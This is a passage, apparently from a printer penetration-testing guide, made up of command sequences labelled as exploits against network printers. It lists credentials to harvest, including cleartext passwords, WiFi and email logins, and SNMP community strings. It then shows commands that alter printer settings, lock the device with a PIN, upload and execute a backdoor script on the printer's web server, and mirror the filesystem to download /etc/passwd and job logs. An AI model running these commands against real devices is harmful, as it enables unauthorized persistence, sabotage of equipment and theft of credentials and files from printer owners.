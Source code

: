 **Look for:**
- Cleartext passwords
- Hashed passwords
- WiFi credentials
- Email credentials
- SNMP community strings

---

### Exploit 2: Configuration Manipulation

```bash
# Backup original configuration
> backup original_config.bak

# Modify settings
> set TIMEOUT=999
> set DUPLEX=OFF
> display "HACKED"

# Lock printer
> lock 31337

# Restore if needed
> restore original_config.bak
```

---

### Exploit 3: Persistent Backdoor

```bash
# Upload backdoor script
> upload backdoor.ps /webServer/backdoor.ps

# Verify upload
> ls /webServer
> cat /webServer/backdoor.ps

# Test backdoor
> execute @PJL ENTER LANGUAGE=POSTSCRIPT
```

---

### Exploit 4: Data Exfiltration

```bash
# Mirror entire filesystem
> mirror

# Download specific files
> download /etc/passwd
> download /webServer/index.html
> download /var/log/jobs.log

# Export to analysis folder
$ ls -la exfiltrated/
```

---